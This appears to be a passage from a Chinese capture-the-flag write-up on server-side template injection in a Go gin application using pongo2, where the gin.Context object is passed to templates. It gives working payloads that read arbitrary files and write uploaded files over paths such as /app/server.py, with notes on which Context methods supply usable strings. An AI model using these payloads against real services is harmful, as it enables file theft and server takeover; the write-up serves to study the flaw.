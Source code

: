 从代码中可以看到，我们把`c *gin.Context`传送给模板引擎，所以在 ssti 时可以使用`c *gin.Context`这一变量。

参考文档：

[https://github.com/flosch/pongo2](https://github.com/flosch/pongo2)

[https://pkg.go.dev/github.com/gin-gonic/gin](https://pkg.go.dev/github.com/gin-gonic/gin)

[https://django.readthedocs.io/en/1.7.x/topics/templates.html](https://django.readthedocs.io/en/1.7.x/topics/templates.html)

[https://www.kancloud.cn/shuangdeyu/gin\_book/949420](https://www.kancloud.cn/shuangdeyu/gin_book/949420)

以及这篇博客

[https://www.imwxz.com/posts/2b599b70.html#template%E7%9A%84%E5%A5%87%E6%8A%80%E6%B7%AB%E5%B7%A7](https://www.imwxz.com/posts/2b599b70.html#template%E7%9A%84%E5%A5%87%E6%8A%80%E6%B7%AB%E5%B7%A7)

go 只允许访问传入对象下的属性和方法，那么就可以从 c \*gin.context 入手

> **`c *gin.Context`的使用**
> 
> [https://pkg.go.dev/github.com/gin-gonic/gin#pkg-index](https://pkg.go.dev/github.com/gin-gonic/gin#pkg-index)
> 
> 因此可以得到，文件读取的 payload：
> 
> ```bash
> {%include c.Request.Referer()%} #通过请求头的 Referer
>  {%include c.Request.Host()%} #通过请求头的 Host
>  {%include c.Query(c.ClientIP())%} #通过？ip\_add=/app/server.py 读取
> ```
> 
> 写文件的 payload
> 
> ```bash
> {{c.SaveUploadedFile(c.FormFile(c.Request.Host),c.Request.Referer())}}
>  
>  {%set form=c.Query(c.HandlerName|first)%}
>  {{c.SaveUploadedFile(c.FormFile(form),c.Request.Referer())}}&m=file
>  
>  {%set form=c.Query(c.HandlerName|first)%}{%set path=c.Query(c.HandlerName|last)%}{%set file=c.FormFile(form)%}{{c.SaveUploadedFile(file,path)}}&m=file&n=/app/server.py
> ```
> 
> 这三个 payload 其实大同小异，只是后两个使用了过滤器（c.HandlerName 的值为 main/route.Admin）

并且 go 的 template 只允许调用 1 个返回值，或者 2 个返回值并且第二个返回值为 error 类型的函数 形如 a(res) 或者 a(res,err)  
看 gin.Context 下的几个不需要传参的函数，这里几个函数都能拿到字符串，然后将字符串放在请求参数上面可以获取任意字符串

> 源码：[https://github.com/gin-gonic/gin/blob/master/context.go](https://github.com/gin-gonic/gin/blob/master/context.go)

```bash
总结
func (c *Context) HandlerName() string {
    return nameOfFunction(c.handlers.Last())
}
// 结果：main/route.Admin，可以得到 m,n
func (c *Context) FullPath() string {
    return c.fullPath
}
// 这个结果为/admin，first 之后是'/'，与传参冲突
func (c *Context) ClientIP() string {}
// 结果：10.0.0.1，首尾字符串结果一样，不采用
func (c *Context) RemoteIP() string {}
// 同上
func (c *Context) ContentType() string{}
```